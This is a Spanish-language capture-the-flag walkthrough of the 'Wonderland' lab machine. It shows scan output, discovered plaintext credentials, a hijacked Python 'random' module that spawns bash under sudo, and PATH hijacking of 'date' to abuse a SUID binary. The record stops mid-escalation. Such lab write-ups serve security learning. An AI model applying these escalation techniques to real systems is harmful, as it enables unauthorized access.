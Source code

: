 # Wonderland

## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.

```
## Enum
### HTPP 
#### Gobusting
```
/img
/poem
/r/a/b/b/i/t <- alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

## Privesc
Con estas creds estamos logeados como alice
### Alice
```
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
El script al que llamamos tiene la siguiente estructura
```
import random
# poem
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
Creemos un modulo de python llamado random con la siguiente función
```
import os

def choice(string):
	os.system("/bin/bash")
```

Con esto en la carpeta en la que estamos lanzamos el siguiente comando
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
### Rabbit
#### SUID
```
/home/rabbit/teaParty
```
Este binario es extraño y tiene el SUID de hatter, corramoslo con ltrace
```
ltrace ./teaParty
setuid(1003)                                                                              = -1
setgid(1003)                                                                              = -1
puts("Welcome to the tea party!\nThe Ma"...Welcome to the tea party!
The Mad Hatter will be here soon.
)                                              = 60
system("/bin/echo -n 'Probably by ' && d"...Probably by Thu, 20 Aug 2020 20:38:38 +0000
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                    = 0
puts("Ask very nicely, and I will give"...Ask very nicely, and I will give you some tea while you wait for him
)                                               = 69
getchar(1, 0x560b3f0c5260, 0x7f59805288c0, 0x7f598024b154
)                                = 10
puts("Segmentation fault (core dumped)"...Segmentation fault (core dumped)
)                                               = 33
+++ exited (status 33) +++
```
La llamada al sistema es interesante, aunque no se muestra entera, veamosla con cat
```
/bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely, and I will give you some tea while you wait for him
```
Se llama a date sin especificar la ruta, ahi tenemos nuestro punto de fallo
```
rabbit@wonderland:/home/rabbit$ mkdir tools
rabbit@wonderland:/home/rabbit$ cd tools
rabbit@wonderland:/home/rabbit/tools$ cp /bin/bash date
rabbit@wonderland:/home/rabbit/tools$ PATH=$PWD:$PATH

```
